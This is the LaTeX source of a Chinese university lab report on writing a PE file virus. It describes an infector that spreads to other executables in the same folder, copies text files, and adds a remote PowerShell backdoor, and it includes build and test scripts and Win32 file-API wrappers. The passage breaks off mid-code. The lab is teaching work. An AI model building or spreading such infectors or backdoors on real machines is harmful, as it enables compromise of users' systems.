tition,Resize-StorageTier,Resize-VirtualDisk,Restart-NetAdapter,Restart-PcsvDevice,Restart-PrintJob,Restore-DscConfiguration,Restore-NetworkSwitchConfiguration,Resume-BitLocker,Resume-PrintJob,Revoke-FileShareAccess,Revoke-SmbShareAccess,SafeGetCommand,Save-EtwTraceSession,Save-Module,Save-NetGPO,Save-NetworkSwitchConfiguration,Save-Script,Send-EtwTraceSession,Set-AutologgerConfig,Set-ClusteredScheduledTask,Set-DAClientExperienceConfiguration,Set-DAEntryPointTableItem,Set-Disk,Set-DnsClient,Set-DnsClientGlobalSetting,Set-DnsClientNrptGlobal,Set-DnsClientNrptRule,Set-DnsClientServerAddress,Set-DtcAdvancedHostSetting,Set-DtcAdvancedSetting,Set-DtcClusterDefault,Set-DtcClusterTMMapping,Set-Dtefault,Set-DtcLog,Set-DtcNetworkSetting,Set-DtcTransaction,Set-DtcTransactionsTraceSession,Set-DtcTransactionsTraceSetting,Set-DynamicParameterVariables,Set-EtwTraceProvider,Set-FileIntegrity,Set-FileShare,Set-FileStorageTier,Set-InitiatorPort,Set-IscsiChapSecret,Set-LogProperties,Set-MMAgent,Set-MpPreference,Set-NCSIPolicyConfiguration,Set-Net6to4Configuration,Set-NetAdapter,Set-NetAdapterAdvancedProperty,Set-NetAdapterBinding,Set-NetAdapterChecksumOffload,Set-NetAdapterEncapsulatedPacketTaskOffload,Set-NetAdapterIPsecOffload,Set-NetAdapterLso,Set-NetAdapterPacketDirect,Set-NetAdapterPowerManagement,Set-NetAdapterQos,Set-NetAdapterRdma,Set-NetAdapterRsc,Set-NetAdapterRss,Set-NetAdapterSriov,Set-NetAdapterVmq,Set-NetConnectionProfile,Set-NetDnsTransitionConfiguration,Set-NetEventPacketCaptureProvider,Set-NetEventProvider,Set-NetEventSession,Set-NetEventVFPProvider,Set-NetEventVmSwitchProvider,Set-NetEventWFPCaptureProvider,Set-NetFirewallAddressFilter,Set-NetFirewallApplicationFilter,Set-NetFirewallInterfaceFilter,Set-NetFirewallInterfaceTypeFilter,Set-NetFirewallPortFilter,Set-NetFirewallProfile,Set-NetFirewallRule,Set-NetFirewallSecurityFilter,Set-NetFirewallServiceFilter,Set-NetFirewallSetting,Set-NetIPAddress,Set-NetIPHttpsConfiguration,Set-NetIPInterface,Set-NetIPseospSetting,Set-NetIPsecMainModeCryptoSet,Set-NetIPsecMainModeRule,Set-NetIPsecPhase1AuthSet,Set-NetIPsecPhase2AuthSet,Set-NetIPsecQuickModeCryptoSet,Set-NetIPsecRule,Set-NetIPv4Protocol,Set-NetIPv6Protocol,Set-NetIsatapConfiguration,Set-NetLbfoTeam,Set-NetLbfoTeamMember,Set-NetLbfoTeamNic,Set-NetNat,Set-NetNatGlobal,Set-NetNatTransitionConfiguration,Set-NetNeighbor,Set-NetOffloadGlobalSetting,Set-NetQosPolicy,Set-NetRoute,Set-NetTCPSetting,Set-NetTeredoConfiguration,Set-NetUDPSetting,Set-NetworkSwitchEthernetPortIPAddress,Set-NetworkSwitchPortMode,Set-NetworkSwitchPortProperty,Set-NetworkSwitchVlanProperty,Set-Odbriver,Set-Odbsn,Set-Partition,Set-PcsvDeviceBootConfiguration,Set-PcsvDeviceNetworkConfiguration,Set-PcsvDeviceUserPassword,Set-PhysicalDisk,Set-PrintConfiguration,Set-Printer,Set-PrinterProperty,Set-PSRepository,Set-ResiliencySetting,Set-ScheduledTask,Set-SmbBandwidthLimit,Set-SmbClientConfiguration,Set-SmbPathAcl,Set-SmbServerConfiguration,Set-SmbShare,Set-StorageFileServer,Set-StorageHealthSetting,Set-StoragePool,Set-StorageProvider,Set-StorageSetting,Set-StorageSubSystem,Set-StorageTier,Set-TestInconclusive,Setup,Set-VirtualDisk,Set-Volume,Set-VolumeScrubPolicy,Set-VpnConnection,Set-VpnConnectionIPsecConfiguration,Set-VpnConnectionProxy,Set-VpnConnectionTriggerDnsConfiguration,Set-VpnConnectionTriggerTrustedNetwork,Should,Show-NetFirewallRule,Show-NetIPsecRule,Show-VirtualDisk,Start-AppBackgroundTask,Start-AutologgerConfig,Start-Dtc,Start-DtcTransactionsTraceSession,Start-EtwTraceSession,Start-MpScan,Start-MpWDOScan,Start-NetEventSession,Start-PcsvDevice,Start-ScheduledTask,Start-StorageDiagnosticLog,Start-Trace,Start-WUScan,Stop-DscConfiguration,Stop-Dtc,Stop-DtcTransactionsTraceSession,Stop-EtwTraceSession,Stop-NetEventSession,Stop-PcsvDevice,Stop-ScheduledTask,Stop-StorageDiagnosticLog,Stop-StorageJob,Stop-Trace,Suspend-BitLocker,Suspend-PrintJob,Sync-NetIPsecRule,TabExpansion2,Test-Dtc,Test-NetConnection,Test-ScriptFileInfo,Unblock-FileShareAccess,Unblock-SmbShareAccess,Uninstall-Dtc,Uninstall-Module,Uninstall-Script,Unlock-BitLocker,Unregister-AppBackgroundTask,Unregister-ClusteredScheduledTask,Unregister-IscsiSession,Unregister-PSRepository,Unregister-ScheduledTask,Unregister-StorageSubsystem,Update-Disk,Update-DscConfiguration,Update-EtwTraceSession,Update-HostStorageCache,Update-IscsiTarget,Update-IscsiTargetPortal,Update-Module,Update-ModuleManifest,Update-MpSignature,Update-NetIPsecRule,Update-Script,Update-ScriptFileInfo,Update-SmbMultichannelConnection,Update-StorageFirmware,Update-StoragePool,Update-StorageProviderCache,Write-DtcTransactionsTraceSession,Write-PrinterNfcTag,Write-VolumeCache
	},
	morekeywords={Do,Else,For,ForEach,Function,If,In,Until,While},
	alsodigit={-},
	sensitive=false,
	morecomment=[l]{\#},
	morecomment=[n]{<\#}{\#>},
	morestring=[b]{"},
	morestring=[b]{'},
	morestring=[s]{@'}{'@},
	morestring=[s]{@"}{"@}
}
% margins
\usepackage{geometry}
\geometry{a4paper,  scale=0.7}
% page header and footer
\usepackage{fancyhdr}
\usepackage{float}
\pagestyle{fancy}
\rhead{}

% For table alignment
\usepackage{array}
% multirow table
\usepackage{multirow}

% Hyper references
\usepackage{hyperref}

%subfigure
\usepackage{subfigure}

\usepackage{caption}

\let\oldparagraph\paragraph
\renewcommand{\paragraph}[1]{\oldparagraph{#1} \mbox{}\\}

\lstset{
	columns=fixed,
	style=FiraCodeStyle,
	basicstyle=\small\ttfamily,
	backgroundcolor=\color[RGB]{244,244,244}, 		  % 设定背景颜色:浅晦涩,近透明
	keywordstyle=\color[RGB]{40,40,255},			  % 设定关键字颜色
	commentstyle=\color[RGB]{0,96,96},                % 设置代码注释的格式
	stringstyle=\color[RGB]{128,0,0},                 % 设置字符串格式
}

\begin{document}
	\title{PE病毒实验}
	\author{}
	\date{\vspace{-8ex}}
	\maketitle
	\begin{table}[h]
		\centering
		
		\begin{tabular}{|p{2.5cm}<{\centering}|p{4.5cm}<{\centering}|p{3cm}<{\centering}|p{2.5cm}<{\centering}|}
			\hline
			\textbf{课程名称} & 软件安全         & \textbf{实验日期} & 2022.10.29   \\ \hline
			\textbf{姓名}   & \textbf{学号}   & \textbf{专业}   & \textbf{班级} \\ \hline
			李心杨           & 2020302181022 & 信息安全          & 2           \\
			林锟扬           & 2020302181032 & 信息安全          & 2           \\
			上官景威      &  2020302181069 & 信息安全          & 3           \\ \hline
		\end{tabular}
	\end{table}
	\tableofcontents
	\pagebreak
	
	\section{实验目的及实验内容}
	\subsection{实验目的}
	加深理解PE文件格式,掌握基本PE病毒的编写技术。
	\subsection{实验任务}
	编写一个PE文件传染程序infect.exe,功能要求如下:
	\begin{enumerate}
		\item infect.exe运行后,向同目录下的某个Windows可执行程序(下称目标程序,建议找一个免安装的绿色程序,以方便测试。),植入“病毒载荷”代码。
		\item infect.exe不能重复传染目标程序。
		\item【初级任务】目标程序被植入“病毒载荷”后,具备如下行为:一旦执行,就会在其同目录下查找是否有.txt文件,如果有,则任选一个,将其内容复制到另一个位置,文件名为本组某个同学的学号。
		\item【进阶任务】在完成初级任务的情况下,增加如下病毒行为:在其同目录下查找是否有.exe文件,如果有,则传染之。
		\item【自定义任务】在进阶任务的基础上,增加后门,支持远程执行powershell指令。
	\end{enumerate}
    \section{项目说明}
    \subsection{项目简介}

    项目的 GitHub 仓库地址: \href{https://github.com/Qing-LKY/PE-Virus}{https://github.com/Qing-LKY/PE-Virus}。
    
    项目主要由两个部分构成:

    $\bullet$ 基础病毒: 对应初级任务和进阶任务,实现了传染性病毒的基本框架和简单功能。

    $\bullet$ 后门病毒: 在基础病毒的基础上添加了后门,可以远程执行 powershell 指令。

    两个部分相互独立,互不干扰。各部分具体对应哪些文件可参考 README.md。

    除此之外,我们还自己编写了辅助的工具,用于编程和测试。它们的源码位于 src/tools 中。

    项目的编译和结构较为复杂,我们描述在了 README 中。同时也将部分功能集成在了 Project.bat 中。

    \subsection{辅助工具使用}

    这些辅助工具实际上相互配合的。
    
    \subsubsection{PE 节提取工具}
    对应 src/tools/dump.c。用于从 PE 文件中提取某个节的机器码到二进制文件中。

    源码可自行阅读,原理类似 \ref{sec:PE headers}。

    编译后,它的使用格式如下:

    \begin{lstlisting}
dump.exe /f:junior.exe /s:.junior /ob:junior.bin
    \end{lstlisting}

    \verb|/f:filename| 用于指定 PE 文件的名称,\verb|/s:section| 用于指定目标节的名称,\verb|/ob:binname| 用于指定要存储的二进制文件名称。

    上面的例子执行后,junior.exe 中的 .junior 段的机器码会被提取到 junior.bin 中。用于后面介绍的转化工具。

    \subsubsection{二进制数据转数组工具}

    对应 src/tools/trans.c。用于将二进制文件转化为 C 语言的 BYTE 数组定义,并输出到标准输出中。

    它的使用方式如下:

    \begin{lstlisting}
trans.exe junior.bin > shellcode.c
    \end{lstlisting}

    生成的 shellcode.c 可以直接用于后面介绍的荷载代码插入工具。

    需要注意,工具识别跳转预留字段的方式是查找 0x11223344。因此对于项目中的 advance 和 advance2 并不适用。如果需要强行使用,需要自行计算 jmp point。
    
    实际上 advance 和 advance2 也不需要使用荷载代码插入工具,它本身就是可执行的传染源。

    \subsubsection{荷载代码插入工具}

    对应 src/tools/infect.c。读入目标程序名称,然后将前面生成的 shellcode.c 中的荷载代码写入到程序中。写入方式同 \ref{sec:infect}。

    每次修改 shellcode.c 时需要重新编译生成这一工具。
    
    这一工具用于将本身不具传染性的荷载代码 tiny.c 和 junior.c 传染到目标程序中。它对应了实验要求中的 infect.c。由于使用时步骤较繁琐,再加上 advance 的实现本身不需要额外的传染工具,因此不被 advance 使用。

    下面是一个完整的使用例子,节选自 project.bat。
    
    \begin{lstlisting}
cd %src%
link /entry:ShellCode /subsystem:console junior.obj
%tool%\dump.exe /f:junior.exe /s:.junior /ob:junior.bin
%tool%\trans.exe junior.bin > %test%\shellcode.c
cd %test%
copy %tool%\infect.c .\infect.c
cl /Ob1 /GS- infect.c
copy %root%\blank.exe.bak %test%\hello.exe
(echo hello.exe) | .\infect.exe
    \end{lstlisting}

    \subsubsection{project.bat 说明}

    一个脚本文件。集成了基础病毒部分的编译等。输入 0 可以查看帮助。输入其它数字可以执行对应功能。

    在执行测试功能时需要先 Build All。

    测试功能的说明和效果详见 \href{https://github.com/Qing-LKY/PE-Virus/blob/master/README.md}{README 文档}。

    \subsection{项目环境}
    
    本项目在Windows上开发,使用msvc作为编译器,编译项目需要下载Windows SDK。实验过程中用到的编译器及库版本如表~\ref{tab:environment} 所示。

    \begin{table}[h]
        \centering
        \begin{tabular}{|c|c|}
            \hline
            软件名&版本信息 \\ \hline 
            Windows 10& 20H2 OS Build 19042.1706 \\
            cl&19.33.31630(x86) \\
            \hline
        \end{tabular}
        \caption{开发及运行环境}
        \label{tab:environment}
    \end{table}
    
    具体的编译、运行说明和目录结构说明请参见项目的\href{https://github.com/Qing-LKY/PE-Virus/blob/master/README.md}{README文档}。

    % 为啥这个地方标黄 噢 好了
    开发环境的搭建和配置可以参考我的\href{https://qing-lky.github.io/2022/10/24/VScode-\%E9\%85\%8D\%E7\%BD\%AE-MSVC-\%E5\%BC\%80\%E5\%8F\%91\%E7\%8E\%AF\%E5\%A2\%83/}{个人博客}。
    
    \subsection{项目效果}
    
    \subsubsection{感染 Notepad++}
    
    我们使用\href{https://github.com/notepad-plus-plus/notepad-plus-plus/releases/download/v8.1.4/npp.8.1.4.portable.zip}{Notepad++ 8.1.4 (Portable)} 进行测试,在Notepad++的同文件夹下放置编译后的病毒,并执行,得到如图~\ref{fig:notepad-test} 所示的结果。

    \begin{figure}[H]
    \centering
        \subfigure[感染前的notepad++.exe]{
\includegraphics[width=0.9\linewidth]{.asset/notepad0.png}}
        \subfigure[感染后的notepad++.exe]{
\includegraphics[width=0.9\linewidth]{.asset/notepad1.png}}
        \caption{使用notepad++测试}
        \label{fig:notepad-test}
    \end{figure}

    感染后的 Notepad++ 可以正常运行。且运行后,仍然具有传染性,可以传染同目录下的其它文件。

    \subsubsection{Junior}

    junior 病毒对应任务 1。是不具传染性,但拥有复制功能的荷载代码。

    测试使用 project.bat 中的 test junior 完成。测试的核心语句如下:

    \begin{lstlisting}[caption={test junior}, captionpos=b]
:test_junior
if exist %test% rmdir /S /Q %test%
mkdir %test%
rem build shellcode.c
cd %src%
link /entry:ShellCode /subsystem:console junior.obj
%tool%\dump.exe /f:junior.exe /s:.junior /ob:junior.bin
%tool%\trans.exe junior.bin > %test%\shellcode.c
rem build infect.exe
cd %test%
copy %tool%\infect.c .\infect.c
cl /Ob1 /GS- infect.c
del infect.c
del infect.obj
del shellcode.c
rem set target files
copy %root%\blank.exe.bak %test%\hello.exe
echo "Test string!" > %test%\copy_me.txt
cd %test%
(echo hello.exe) | .\infect.exe
.\hello.exe
dumpbin hello.exe
goto interact
    \end{lstlisting}

    首先编译并生成 shellcode,然后编译生成 infect.exe,并使用 infect.exe 感染 hello.exe。运行的 hello.exe 可以正常输出 ``Hello World!'',并且复制目录下的 copyme.txt 到另一个文件中:
    
    \begin{figure}[H]
    \centering
        \subfigure[被感染程序正常输出 Hello World]{
\includegraphics[width=0.9\linewidth]{.asset/test-junior.png}}
        \subfigure[被感染程序执行了复制功能]{
\includegraphics[width=0.9\linewidth]{.asset/test-junior2.png}}
        \caption{Test Junior}
        \label{fig:test-junior}
    \end{figure}
    
    \subsubsection{Advance v2}

    advance2 是具有传染性的 junior。

    测试使用 project.bat 中的 test advance2 完成。测试的核心语句如下:

    \begin{lstlisting}[caption={test advance2}, captionpos=b]
copy advance2.exe %test%\virus.exe
copy %root%\blank.exe.bak %test%\hello1.exe
cd %test%
.\virus.exe
copy %root%\blank.exe.bak %test%\hello2.exe
.\hello1.exe
echo "Test string!" > %test%\copy_me.txt
.\hello2.exe
dumpbin hello2.exe
    \end{lstlisting}

    它会将编译生成的 advance2.exe 重命名为 virus.exe 并复制到 test 目录下。运行后,会感染目录下的 hello1.exe。
    
    再复制一个未被感染的 hello2.exe 进去,运行被感染的 hello1.exe,会将 hello2.exe 感染。证明病毒具有传染性。
    
    再次运行 hello2.exe,可以发现 hello2.exe 可以执行 junior 的功能。

    \begin{figure}[H]
    \centering
        \subfigure[Hello1 被 Virus 传染,Hello2 被 Hello1 传染]{
\includegraphics[width=8cm]{.asset/test-advance.png}}
        \subfigure[被感染程序执行了复制功能]{
\includegraphics[width=8cm]{.asset/test-advance2.png}}
        \caption{Test Advance v2}
    \end{figure}
    
    \subsubsection{对远端指令执行进行测试}
    
    编译并执行带有远端指令执行后门的ShellCode,执行后,打开任务管理器。如图~\ref{fig:backdoor-test} 所示,这些PowerShell(X86)的进程就是由病毒程序所创建的。
    
    \begin{figure}[H]
        \centering
        
\includegraphics[width=6cm]{.asset/backdoor-test.png}
        \caption{ShellCode创建的后门进程}
        \label{fig:backdoor-test}
    \end{figure}
    
    当后门进程向服务端请求命令时,服务端会返回 \lstinline{netstat -na} 。在服务端打印 result.txt 的内容,可以得到如图~\ref{fig:backdoor-test-server} 所示的执行结果。
    
    \begin{figure}[h]
        \centering
        
\includegraphics[width=12cm]{.asset/backdoor-test-server.png}
        \caption{服务端接受到的指令执行结果}
        \label{fig:backdoor-test-server}
    \end{figure}
    
    服务端的地址是写在advance2.c中的,如果想要使用不同的地址进行测试,需要修改Backdoor()函数中的PowerShell脚本,具体请参见README。
    
    \section{原理及代码解析}

    \subsection{Win32 API 使用}

    本项目中使用的 Win32 API,主要通过 Kernel32.dll 获取。一般而言,任何一个 32 位 Windows 程序都会加载 Kernel32.dll 动态库。通过下面的指令,可以列出 Kernel32.dll 中的所有可用函数:

    \begin{lstlisting}
        dumpbin /exports c:\windows\system32\kernel32.dll
    \end{lstlisting}

    大多数的 Kernel32 api 函数在 \href{https://learn.microsoft.com/en-us/docs/}{Microsoft 文档}中都有非常详细的描述。直接搜索需要的函数名称即可找到该函数的文档。

    在 ShellCode 中,这些函数的地址需要我们根据可执行程序在内存中的结构手动查找,而在一般使用中,只要包含了相应的头文件,就可以直接使用 (例如我们使用的最多的 fileapi.h 和 handleapi.h)。

    本实验中使用到的 Kernel32 Api 函数在 \ref{sec:SCSB} 介绍 ShellCode Super Block 的时候已经全部列出。

    其中,最常用最重要的是下面的函数:

    \begin{lstlisting}[language=C, caption={常用 API}, captionpos=b]
typedef HANDLE (WINAPI *__CreateFileA) (
    _In_ LPCSTR lpFileName,
    _In_ DWORD dwDesiredAccess,
    _In_ DWORD dwShareMode,
    _In_opt_ LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    _In_ DWORD dwCreationDisposition,
    _In_ DWORD dwFlagsAndAttributes,
    _In_opt_ HANDLE hTemplateFile
);
typedef BOOL (WINAPI *__WriteFile) (
    _In_ HANDLE hFile,
    _In_reads_bytes_opt_(nNumberOfBytesToWrite) LPCVOID lpBuffer,
    _In_ DWORD nNumberOfBytesToWrite,
    _Out_opt_ LPDWORD lpNumberOfBytesWritten,
    _Inout_opt_ LPOVERLAPPED lpOverlapped
);
typedef BOOL (WINAPI *__ReadFile) (
    _In_ HANDLE hFile,
    _Out_writes_bytes_to_opt_(nNumberOfBytesToRead,*lpNumberOfBytesRead)
    __out_data_source(FILE) LPVOID lpBuffer,
    _In_ DWORD nNumberOfBytesToRead,
    _Out_opt_ LPDWORD lpNumberOfBytesRead,
    _Inout_opt_ LPOVERLAPPED lpOverlapped
);
typedef DWORD (WINAPI *__SetFilePointer) (
    _In_ HANDLE hFile,
    _In_ LONG lDistanceToMove,
    _Inout_opt_ PLONG lpDistanceToMoveHigh,
    _In_ DWORD dwMoveMethod
);
    \end{lstlisting}

    CreateFileA 函数用于打开或创建文件。而 SetFilePointer 则用于与 WriteFile 和 ReadFile 配合,达到从某一偏移处读写数据的作用。此外,SetFilePointer 与 SetEndOfFile 配合,也可以实现对文件的截断或扩展。

    我们将这些文件操作整合在了两个函数里:

    \begin{lstlisting}[language=C, caption={Read/Write File}, captionpos=b]
__forceinline int ReadOffset(SCSB *sb, HANDLE hFile,
    long offset, long mode, void* buf, long size) {
    if(SetFilePointer(hFile, offset, NULL, mode) == INVALID_SET_FILE_POINTER) {
        return 1;
    }
    if(ReadFile(hFile, buf, size, NULL, NULL) == FALSE) {
        return 2;
    }
    return 0;
}

__forceinline int WriteOffset(SCSB *sb, HANDLE hFile,
    long offset, long mode, void* buf, long size) {
